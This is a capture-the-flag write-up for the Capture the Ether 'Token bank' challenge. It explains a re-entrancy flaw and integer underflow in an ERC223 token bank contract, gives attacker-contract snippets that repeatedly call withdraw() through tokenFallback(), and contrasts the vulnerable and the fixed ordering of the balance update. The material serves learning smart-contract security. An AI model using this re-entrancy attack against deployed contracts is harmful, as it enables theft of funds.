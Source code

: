 # Token bank

## Objectives

> I created a token bank. It allows anyone to deposit tokens by transferring them to the bank and then to withdraw those tokens later. It uses ERC 223 to accept the incoming tokens.\
> The bank deploys a token called “Simple ERC223 Token” and assigns half the tokens to me and half to you. You win this challenge if you can empty the bank.

## Solution

The ERC223 standard differs from the ERC20 standard in that it notifies the contract receiving the tokens when they're sent. In this case, the implementation does it through a fallback function called `tokenFallback()` which should be implemented in the contract receiving the tokens. 

The TokenBankChallenge contract implements it along with a `withdraw()` function. However, given this flexibility and how the `withdraw()` function is coded in TokenBankChallenge, there is a re-entrancy vulnerability that allows us to call the function multiple times before the balance is updated. Not only this, but given the version of the compiler the contracts are coded in (`0.4.21` as all challenges in capture the ether), the `withdraw()` function also causes an integer overflow in the `balanceOf` array for the contract address we're using to interact with it.

To solve it, we must code a contract that implements a function that calls `withdraw()` in the TokenBankChallenge contract, for example:

```js
function withdraw() public {
    if (token.balanceOf(address(challenge)) > 0) {
        challenge.withdraw(challenge.balanceOf(address(this)));
    }
}
```

Where `challenge` is an interface.

In this case, we will only call `withdraw()` again if there's funds still available in the contract.

A `tokenFallback()` function must also be implemented because the SimpleERC223Token contract will call it. This function must also include a call to the `withdraw()` in our attacker contract, I implemented it like this:

```js
function tokenFallback(address sender, uint256 value, bytes data) external {
    if (sender == address(challenge)) {
        withdraw();
    }
}
```

We only want to call withdraw when the TokenBankChallenge contract transfers funds to the attacker contract through `require(token.transfer(msg.sender, amount));` (line 106 in the challenge contract). 

The reentrancy vulnerability would be impossible to execute if the balance is updated prior to calling transfer in the token contract:

```js
function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);
    balanceOf[msg.sender] -= amount;
    require(token.transfer(msg.sender, amount));
}
```

However, the contract is coded as follows:

```js
function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
}
```

## Submission transaction

https://ropsten.etherscan.io/tx/0xd172a0fe62e154b55ca71d98f8003835121977c5ff18a1c4d76c97b5c4e380fb
